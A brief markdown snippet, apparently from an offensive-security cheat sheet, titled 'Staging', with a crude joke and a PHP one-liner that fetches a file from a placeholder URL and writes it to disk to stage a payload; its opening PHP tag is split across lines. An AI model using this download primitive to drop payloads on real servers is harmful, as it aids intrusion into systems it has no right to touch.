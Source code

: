 # Staging
Yeah sex is good but did you ever stage a payload?
## PHP
### Download file
```
<?
php file_put_contents(<file>, file_get_contents(<url>));
?>
```